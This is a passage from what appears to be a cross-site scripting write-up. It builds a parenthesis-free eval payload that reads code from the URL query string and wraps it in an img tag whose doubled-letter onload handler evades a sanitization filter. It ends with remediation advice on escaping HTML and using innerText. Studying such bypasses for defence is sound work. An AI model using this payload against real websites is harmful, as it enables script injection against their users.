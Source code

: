 into 

```
eval.call`${location.search.split`&a=`[1]}`
```

which is 100% parenthesis free! 

Substituting this back into our payload, we get

```
<img/oonnload="eval.call`${locatioonn.search.split`&a=`[1]}`"/src="https://picsum.photos/200/300" 
```

## Conclusion & Remediation

Web languages like HTML and JavaScript have very complex implementations, full of lesser-known features and edge cases. Most developers are not going to be able to reliably predict all of the many ways by which an attacker can slip an XSS payload through an input sanitization function. For this reason, the best way to prevent these attacks is to redesign the website in a way that does not require user-submitted HTML to be injected into the page. Instead, the developer should completely escape any HTML with the use of library functions, or ideally by using the `.innerText` field to set an element's content as text, not HTML.

A common reason for allowing HTML is to make custom formatting possible, but this can also be achieved with the use of other markdown languages like *Markdown* or *BBCode* which do not allow script execution. 
